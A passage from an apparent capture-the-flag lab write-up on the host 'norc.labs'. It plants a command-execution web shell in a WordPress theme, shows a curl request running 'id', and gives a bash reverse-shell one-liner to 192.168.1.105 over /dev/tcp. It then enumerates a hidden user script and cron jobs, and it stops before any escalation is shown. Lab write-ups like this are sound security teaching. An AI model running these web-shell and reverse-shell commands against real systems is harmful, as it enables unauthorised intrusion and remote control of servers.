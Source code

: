 This plugin disables the 'Plugin and Theme Editor' in WordPress; once enabled, we can insert our code directly into a theme.

![[attachment/a8c06a360746e292aabe7459783f48f3.png]]

![[attachment/2d132a38df4b2095ac64dbebf860b16d.png]]

I tried the RCE, but it didn't work. Upon further investigation, I discovered there is a vhost. Using the IP for RCE didn't work, but using the vhost did, ==I don't know why==
 
```
❯ ❯ curl -s 'http://norc.labs/wp-content/themes/twentytwentytwo/index.php?cmd=id'                                                                                                      ─╯
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![[attachment/992cb5ccc2c49dfdcec11d05bda5e71c.png]]

Now, with remote command execution capabilities, we can deploy a reverse shell to gain access to the server.

```
bash -c 'bash -i &>/dev/tcp/192.168.1.105/1234 <&1'
```

![[attachment/14ed20188cb422542d37614bdef2a9ce.png]]

Upon reviewing the home directory for additional users, there is a user named 'kvzlx'. Initially, this directory appears empty; however, upon executing the command 'ls -la', a hidden script is revealed:

![[attachment/0c511fa6fcf047ad3ef17aa12553bcbe.png]]

We don't have permission to execute this script, but we can view its contents.

![[attachment/11f5150420c75a051435bf9a9c5a7a56.png]]

This script reads an encrypted password from a file, decodes it, saves the decoded password to another file, and then executes the decoded password as a command. The script's behavior is unusual, so we examined the file it generates in the /tmp directory.

![[attachment/bad8e2361caccafd52fe00d2e9edb8b6.png]]

The file is empty, so we checked the source file from which the script reads, but this file doesn't exist. One thing we can do is create it, since we have permission to write in the directory.

![[attachment/0054f5275e6ee72c35180fe323496763.png]]

However, we first need to determine how the script is executed. After checking the cron jobs, we did not find any evidence that this script runs at regular intervals.

```shell
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```
